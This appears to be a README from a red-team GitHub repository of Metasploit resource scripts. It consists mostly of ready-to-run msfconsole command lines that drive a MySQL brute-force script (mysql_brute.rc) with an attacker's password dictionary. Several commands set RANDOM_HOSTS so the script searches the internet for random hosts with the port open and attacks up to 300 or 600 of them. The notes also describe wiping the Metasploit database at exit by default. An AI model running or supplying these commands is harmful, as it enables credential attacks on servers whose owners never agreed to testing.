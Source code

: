 ## METASPLOIT RESOURCE FILES

<blockquote>Resource scripts provides an easy way for us to automate repetitive tasks in Metasploit. Conceptually they're just like batch scripts, they contain a set of commands that are automatically and sequentially executed when you load the script in Metasploit. You can create a resource script by chaining together a series of Metasploit console commands or by directly embedding Ruby to do things like call APIs, interact with objects in the database, modules and iterate actions.</blockquote>

![pic](http://i68.tinypic.com/21ovkfm.jpg)

<br />

**This repository contains various resource files to assiste in exploitation or metasploit database related issues.**
#### [!] [Please read the article about rc scripting here:](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit_resource_files.md#metasploit-resource-files)

<br /><br /><br />

### USING 'SETG' GLOBAL VARIABLES TO CONFIG RC SCRIPTS

![pic](http://i67.tinypic.com/2wfi88h.png)

> Many of the this brute force rc scripts are written to accept user inputs (setg global variables).<br />
> This means that users can run the resource scripts in 3 diferent ways:

- execute resource script (default).<br />
**[ Local lan scan: 192.168.1.0/24 ]**

      msfconsole -r /root/mysql_brute.rc

- instruct the resource script to scan rhosts input by attacker<br />
**[ Attacker input scan: 10.10.10.1 10.10.11.2 ]**

      msfconsole -q -x 'setg RHOSTS 10.10.10.1 10.10.11.2;resource /root/mysql_brute.rc'

- instruct the resource script to search in WAN for rhosts with service port open<br />
**[ Random scan: WAN for rhosts ]**

      msfconsole -q -x 'setg RANDOM_HOSTS true;resource /root/mysql_brute.rc'

<br /><br /><br />

> Adicionally to the described settings we can also combine diferent configurations at runtime.

- instruct the resource script to search in WAN for rhosts with service port open and limmit the search to 300 rhosts

      msfconsole -q -x 'setg RANDOM_HOSTS true;setg RANDOM 300;resource /root/mysql_brute.rc'

- instruct the resource script to use attackers dicionary file (absoluct path required)

      msfconsole -q -x 'setg USERPASS_FILE /root/dicionary.txt;resource /root/mysql_brute.rc'

- instruct the resource script to scan rhosts input by attacker, and use the attacker dicionary file 

      msfconsole -q -x 'setg RHOSTS 10.10.10.1 10.10.11.2;setg USERPASS_FILE /root/dicionary.txt;resource /root/mysql_brute.rc'

- instruct the resource script to not clean database at exit scan WAN for rhosts and limmit search to 600 rhosts

      msfconsole -q -x 'setg CLEAN false;setg RANDOM_HOSTS true;setg RANDOM 600;resource /root/mysql_brute.rc'

<br /><br /><br />

#### FINAL NOTES:

- The msfconsole database must be empty (**clean**) at resource script execution.<br />
`msfconsole -q -x 'hosts -d;services -d;exit -y'`<br />
The best technic to use brute force scripts its to:<br />
`msfconsole -q -x 'hosts -d;services -d;resource /root/<resource_script_name>.rc`<br /><br />
- Brute force resource scripts will build one logfile in /root directory.<br />
`/root/<resource_script_name>.log`<br /><br />
- Brute force resource scripts deletes msfconsole database at exit (default).<br />
`msfconsole -q -x 'setg CLEAN false;resource /root/<resource_script_name>.rc'`<br />
**The above command instruct the rc script to not delete database at exit**<br /><br />

### Suspicious Shell Activity RedTeam @2019

<br />

